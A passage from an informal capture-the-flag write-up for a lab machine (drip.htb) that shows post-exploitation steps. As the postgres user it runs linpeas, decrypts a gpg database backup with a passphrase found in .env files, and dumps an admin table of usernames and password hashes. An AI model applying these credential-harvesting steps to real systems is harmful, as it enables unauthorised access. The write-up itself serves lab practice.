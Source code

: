 ```bash
MAIL_PORT = 25
MAIL_USE_TLS = False
MAIL_USE_SSL = False
MAIL_USERNAME = None
MAIL_PASSWORD = None
MAIL_DEFAULT_SENDER = 'support@drip.htb'
```

okey found something interesting but we will try later lets enum linpeas 

![alt text](../assets/images/darkcorp14.png)

lets see if we can decyrpt em cause we got shell as postgresql and its seems like really interesting

```bash
postgres@drip:/var/backups/postgres$ ls
ls
dev-dripmail.old.sql.gpg
```

this one worked

```bash
gpg --homedir /var/lib/postgresql/.gnupg --pinentry-mode=loopback --passphrase '2Qa2SsBkQvsc' --decrypt dev-dripmail.old.sql.gpg > dev-dripmail.old.sql
```

because we found password before on linpeas output from `.env` files. u can just read it directly and

```bash
COPY public."Admins" (id, username, password, email) FROM stdin;
1   bcase   dc5484871bc95c4eab58032884be7225        bcase@drip.htb
2   victor.r    cac1c7b0e7008d67b6db40c03e76b9c0    victor.r@drip.htb
3   ebelford    8bbd7f88841b4223ae63c8848969be86    ebelford@drip.htb
```
